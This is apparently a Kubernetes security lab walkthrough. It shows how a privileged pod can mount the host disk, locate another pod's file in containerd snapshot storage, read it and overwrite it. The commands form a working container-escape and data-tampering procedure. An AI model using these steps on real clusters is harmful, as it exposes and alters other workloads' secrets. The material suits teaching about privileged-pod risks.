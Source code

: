 #### Step 1 - Create a Non-Priveleged Super Secret Pod:
```sh
nano super-secret-pod.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: super-secret
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
```
```sh
kubectl apply -f super-secret-pod.yaml
```
#### Step 2 - Create a Privileged Pod:
```sh
nano privileged.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: privileged
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
    securityContext:
      privileged: true
```
```sh
kubectl apply -f privileged.yaml
```
#### Step 3 - Store Secret Data in Super Secret Pod:
```sh
kubectl exec -n development -it super-secret -- bash
echo "TOP Secret" > /root/super-secret.txt
```
logout of the super-secret pod

#### Step 4 - Connect to Privileged Pod:

Note: The disk name might be different in your-case. Please ensure you use the right naming while mounting.
```sh
kubectl exec -n development -it privileged -- bash
mkdir /host-data
```
```sh
mkdir /host-data
mount /dev/xvda1 /host-data
cd /host-data/
cd var/lib/containerd/
find . -name super-secret.txt
cat ./io.containerd.snapshotter.v1.overlayfs/snapshots/5706/fs/root/super-secret.txt
echo "Hacked DATA" > ./io.containerd.snapshotter.v1.overlayfs/snapshots/5706/fs/root/super-secret.txt
```

```sh
kubectl exec -n development -it super-secret -- bash
cat /root/super-secret.txt
Hacked DATA
```

